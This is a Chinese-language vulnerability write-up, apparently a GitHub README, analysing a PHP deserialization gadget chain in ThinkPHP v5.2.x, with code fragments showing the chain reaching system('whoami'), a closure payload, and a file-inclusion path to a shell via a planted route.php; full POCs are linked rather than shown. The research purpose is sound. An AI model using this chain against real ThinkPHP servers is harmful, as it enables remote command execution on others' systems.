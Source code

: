 ﻿## 测试版本
php v7.2.10
thinkphp v5.2.x
## 思路
前面的利用链借鉴的是v5.1.37中的思路，可以参考文章[thinkphpv5.1.37反序列化利用链挖掘](https://github.com/Dido1960/thinkphp/tree/master/v5.1.37)
```
// 路径
\vendor\topthink\framework\src\think\process\pipes\Windows.php

// 析构方法入手
__destruct() --> removeFiles() --> files_exists($filename)
 
// 可控参数
new windows()->filename
 
 ```


file_exists()函数将参数当作字符串处理，可以触发类的__toString()魔术方法

```
//路径
\vendor\topthink\framework\src\think\model\concern\Conversion.php

// 寻找__toString()的调用链
__toString() --> toJson()--> toArray()
 
//寻找  $可控变量->方法(参数可控) 的点（失败）
$relation->visible($name);
 
// 注意，寻找存在__call()方法且未实现visible()函数的类无果，另辟蹊径，到这之前的利用链与v5.1.37相同
 
```

利用点：think/model/concern/Attribute.php中getValue可函数动态调用函数`$closure($value, $this->data)`，`$closure,$value`参数均可控
```
//路径
\vendor\topthink\framework\src\think\model\concern\Attribute.php

toArray() --> getAttr($key) --> getValue($name, $value, $relation) --> $closure($value, $this->data)

$closure = $this->withAttr[$fieldName] 
$value = $this->data[$fieldName]

$fieldName = getRealFieldName($name)
$name为$this->data中的键，所以要保证$this->withAttr的键与$this->data中的键一致

 
//可控参数
$this->withAttr
$this->data
 ```

这里`$closure($value, $this->data)`有两个方式进行利用
* 可以利用序列化的匿名函数的姿势进行利用
 ```
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
 
//注意，这里需要引入\Opis\Closure这个第三方库，具体查看官方文档
https://docs.opis.io/closure/3.x/serialize.html
```

* 动态调用函数执行系统命令

```
//动态执行函数system回显
$closure = 'system';
$value = 'whoami';
$data = array("huha"=>"whoami");
$closure($value,$data);
```

最终的反序列利用链
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092801111542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)

在默认模块中构造利用点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190925143232558.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
## POC
#### 利用匿名函数
构造POC的时候注意在web根目录下引入第三方\Opis\Closure函数库vendor，才能序列化闭包对象，否则会报错

```
//导入
require __DIR__ . '/vendor/autoload.php';
```
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc

#### 利用动态函数执行
这种方法没有引入外部类的限制，比较实用

https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc3

## 思路二
前面说__call()方法在\think\Request类中找不到了，可以寻找代替Request的其他类，找到了\think\Db.php中的__call方法
 

```
public function __call($method, $args)
{
    $class = $this->config['query'];
 
    $query = new $class($this->connection);
 
    return call_user_func_array([$query, $method], $args);
}
```

 

 
因为在构造类的时候变量均可控，所以在这里可以调用类的方法，think\Url中存在文件包含
 
 

```
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;
 
    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

如果服务器可上传文件，在知道路径的情况下就可以getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190929013447152.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
本地测试，在D盘目录添加route.php文件

```
<?php
system('ls');
?>
```
## POC2
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc2

## 参考文章
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)

